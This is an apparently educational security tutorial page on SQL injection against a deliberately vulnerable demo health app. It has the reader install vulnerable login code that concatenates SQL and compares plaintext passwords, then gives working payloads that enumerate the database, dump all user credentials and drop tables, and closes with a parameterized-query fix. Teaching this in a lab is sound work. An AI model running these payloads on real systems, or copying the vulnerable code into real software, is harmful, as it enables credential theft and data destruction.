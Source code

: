 
# A03:2021 - Injection

<Callout type="info" emoji="ℹ️">
For the information about **Injection**, visit [page](https://owasp.org/Top10/A03_2021-Injection/)
</Callout>

# SQL Injection

<Callout type="warning" emoji="🔍">
  **CWE-89**: SQL Injection <br />
</Callout>

## Attack
### Code preparation
To prepare for this attack, we need to slightly modify the implementation of handling the login request, because we have already implemented a secure way in section [❕JWT authentication](/cybersecurity/a02/jwt). <br />
Replace the handling of login request in `routes/jwtAuth.ts` with the following code:
```js filename="jwtAuth.ts"  copy showLineNumbers
// LOGIN
router.post("/login", bruteforce.prevent, async (req, res) => {
    const {email, password} = req.body;
    let user = null;

    try {
        user = await pool.query(
            "SELECT email, password from useraccount WHERE email = '" + email + "'"
        );

        if (user?.rows?.length === 0 || user?.length === 0) {
            return res.status(401).json({message: "Invalid email or password.", user: user});
        }

        const validPassword = password === user.rows[0].password;

        if (!validPassword) {
            return res.status(401).json({message: "Invalid email or password.", user: user});
        }

        const token = generateJWT(user.rows[0].password);
        res.json({
            success: true,
            message: "Authentication successful!",
            token: token,
            user: user
        });
    } catch (err) {
        console.error(err.message);
        res.status(500).send({message:"Server error", user: user});
    }
});
```

<Callout emoji="💡">
Compared to the previous implementation, we get rid of the `inputValidation` middleware, we handle passwords as plain text and we adjusted the query to be vulnerable to SQL injection.
</Callout>

### Gather internal information
Firstly, we are going to gather some internal information about the database and tables, which will then help us to perform some more serious attacks. <br />
#### **Database type** <br />
* Enter the following inside the email field on the HackHealth login screen.
```sql copy
' UNION SELECT usename, NULL FROM pg_user--
``` 
* Leave the password field empty and click on the login button. <br />
* When you open Developer Tools, in the Console, when digging deeper into `user.rows` in JSON response from the server, you will see the type of database which is used. <br />
<Image src="/a03/a03_1.png" alt="SQL injection console log" width={1000} height={300}/>
#### **Database name** <br />
* Enter the following inside the email field on the HackHealth login screen, keep the password field empty, and hit Login.
```sql copy
' UNION SELECT current_database(), null--
```
* After digging deeper into the servers response, in `user.rows`, you will see the name of the database: `hackhealthdb` <br />
#### **Names of tables** <br />
* In the same way as in the previous step, we can get the name of the database by inserting the following code into the email field.
```sql copy
'; SELECT table_name FROM information_schema.tables WHERE table_schema='public'; --
```
* Again, after digging deeper into `user[1].rows`, you will see the names of the tables. <br />
    * useraccount
    * appointment
    * medicalreport
<Callout emoji="💡">
To sum up, we have gathered the following information: <br />
* Database type: PostgreSQL
* Database name: hackhealthdb
* Names of tables: useraccount, appointment, medicalreport <br />

We are going to use this information in the next steps.
</Callout>

### Grant unauthorized access
In this attack, we aim to get login credentials for all the users in the table `useraccount`. <br />
Into an email field, we are going to insert the following code:
```sql copy
' OR 1=1; --
```
<Callout type="info" emoji="ℹ️">
This input would cause the SQL query to be constructed as follows: <br />
```sql copy
SELECT email, password form useraccount WHERE email = '' OR 1=1; --
```
The semicolon (;) terminates the current statement and the two dashes (--) indicate a comment, effectively ignoring the remaining part of the original query. The injected SQL code OR 1=1 will always evaluate to true, effectively bypassing the authentication check and returning all records from the "useraccount" table.
</Callout>
* In the response from the server (`user.rows`), we are now able to see all the users with their login credentials. <br />

### Corrupt the tables and database
SQL injection attack is not only about getting the data but also about corrupting the data. <br />
#### **Drop the table** <br />
* Enter the following inside the email field on the HackHealth login screen.
```sql copy
'; DROP TABLE useraccount CASCADE; --
```
* Congratulations, you have just dropped the table `useraccount`! <br />
* Now, when you try to log in with the credentials you have obtained in the previous step, you will not be able to log in -> the table of users just does not exist anymore. <br />
<Callout type="info" emoji="ℹ️">
This was made possible only because when creating the tables, foreign keys were created with CASCADE option. It means that when the table is dropped, all the tables that depend on it are also dropped. <br />
</Callout>

#### **Drop the database** <br />
    Dropping the database is quite more challenging than dropping individual tables. When you will try to execute the command:
    ```sql copy
    '; DROP DATABASE hackhealthdb; --
    ``` 
    you will get an error in the server log: `DROP DATABASE cannot run inside a transaction block`.
    This indicates that PostgreSQL does not allow a database to be dropped while there are active connections to it. This is to prevent accidental data loss due to unintended drops. A solution would be to terminate all running connections to the database, but this could not be done through SQL injection. <br />
    Although the attempt about dropping the whole database was not successful, we have already caused considerable damage.

<Callout type="error" emoji="️🚫">
  Do not forget to put the database to its initial state after the attack. <br />
  To do so, stop the server and run the following commands in the terminal:
    ```bash copy
    npm run db-drop
    npm run db-create
    npm run db-seed
    ```
    After running the following commands, db should be in the initial state.
</Callout>

## Prevention
To prevent SQL injection attacks, it's important to use **parameterized queries** instead of concatenating user input directly into SQL queries. Parameterized queries use placeholders for user input and sanitize the input to prevent malicious SQL code from being executed. <br />
In the source code, we can replace the current implementation of handling login request with the following code:
```js filename="jwtAuth.ts"  copy showLineNumbers
// LOGIN
router.post("/login", bruteforce.prevent, inputValidation, async (req, res) => {
    const {email, password} = req.body;

    try {
        const user = await pool.query(
            "SELECT * FROM useraccount WHERE email = $1",
            [email]
        );

        if (user.rows.length === 0) {
            return res.status(401).json("Invalid email.");
        }

        // VUL A02
        // const validPassword = await bcrypt.compare(password, user.rows[0].password);

        const validPassword = password === user.rows[0].password;

        if (!validPassword) {
            return res.status(401).json("Invalid password.");
        }

        const token = generateJWT(user.rows[0].password);
        res.json({
            success: true,
            message: "Authentication successful!",
            token: token,
        });
    } catch (err) {
        console.error(err.message);
        res.status(500).send("Server error");
    }
});
```
As you can see in the code above, we are using placeholders for user input and sanitizing the input (inputValidation middleware) to prevent malicious SQL code from being executed. <br />
<br />
Also, in the file `Login.js` (easily find by pressing Shift+Shift and typing Login.js), we need to delete the line:
```js copy
console.log(parseJSON)
```
By deleting the line, we will no longer be able to see the response from the server in the Console in Developer Tools, which is a better practice.


## Verification
To verify that the vulnerability has been fixed, you can try running some commands from the Attack section again. The result should be, that injecting malicious SQL code into the email field will not trigger any unintended behavior. <br /> 

## Sources
* https://cwe.mitre.org/data/definitions/89.html\
* Bachelor thesis
